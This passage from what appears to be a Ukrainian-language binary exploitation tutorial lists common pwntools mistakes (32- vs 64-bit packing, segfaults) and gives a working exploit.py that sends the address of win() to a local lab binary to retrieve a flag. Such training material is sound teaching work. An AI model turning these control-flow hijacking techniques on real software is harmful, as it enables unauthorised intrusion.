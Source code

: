 ### Помилка 3: "Використав 32-bit packing на 64-bit програмі"
```python
# Перевірте архітектуру:
file ./binary
# ELF 64-bit ... ← Використовуй p64()
# ELF 32-bit ... ← Використовуй p32()

# 64-bit:
payload = p64(0x401136)   # 8 байт

# 32-bit:
payload = p32(0x401136)   # 4 байти
```

### Помилка 4: "Програма крашить з SIGSEGV"
**Можливі причини:**
1. Неправильна адреса
2. Неправильний packing (p32 замість p64)
3. Відправили не ті байти

**Debugging:**
```python
from pwn import *
context.log_level = 'debug'  # Показує ВСЕ

# Перевірте payload:
payload = p64(0x401136)
print(f"Payload hex: {payload.hex()}")
# Має бути: 3611400000000000 (little-endian)

# Перевірте довжину:
print(f"Length: {len(payload)}")  # Має бути 8
```

### Крок 3: Створіть exploit

Створіть файл `exploit.py`:

```python
#!/usr/bin/env python3
from pwn import *

# Завантажуємо бінарник для аналізу
elf = ELF('../build/stage04_demo_no_offset', checksec=False)

# Автоматично отримуємо адресу win()
win_addr = elf.symbols['win']
log.info(f"Адреса win(): {hex(win_addr)}")

# Запускаємо локальний процес
io = process('../build/stage04_demo_no_offset')

# Відправляємо адресу win() (8 байт, little-endian)
payload = p64(win_addr)
log.info(f"Відправляємо payload: {payload.hex()}")
io.send(payload)

# Отримуємо прапор
flag = io.recvall(timeout=1)
log.success(f"Прапор: {flag.decode().strip()}")

io.close()
```
